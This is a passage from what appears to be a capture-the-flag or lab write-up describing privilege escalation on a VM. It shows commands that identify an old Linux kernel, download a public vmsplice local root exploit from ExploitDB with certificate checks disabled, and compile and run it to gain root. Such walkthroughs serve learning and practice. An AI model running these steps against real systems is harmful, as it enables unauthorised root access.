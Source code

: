 ### Privilege escalation

The kernel version of the system is outdated:

``` plain
obama@ubuntuvm:~$ uname -a
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
```

Googling it instantly brought some good news about <code>vmsplice_to_pipe()</code>, a local privilge escalation vulnerability that affects kernels prior to 2.6.24.2. And the [source](https://www.exploit-db.com/exploits/5092/) is available on ExploitDB. You can see that the author didn't lack any imagination with the name of the source code file (read the first line, it's hilarious) xD

Ok, back to business. I downloaded the file on the compromised box (had to use the <code>--no-check-certificate</code> option because I would get an error otherwise):

``` plain
obama@ubuntuvm:~$ wget -O vmsplice.c https://www.exploit-db.com/download/5092 --no-check-certificate
--05:27:51--  https://www.exploit-db.com/download/5092
           => `vmsplice.c'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 6,293 (6.1K) [application/txt]

100%[============================================================================================================================>] 6,293         --.--K/s             

05:27:52 (1.07 GB/s) - `vmsplice.c' saved [6293/6293]
```

Compiled, and ran the code..and we are root!

``` plain
obama@ubuntuvm:~$ gcc -o vmsplice vmsplice.c
obama@ubuntuvm:~$ ./vmsplice 
-----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7e4b000 .. 0xb7e7d000
[+] root
root@ubuntuvm:~# whoami
root
```
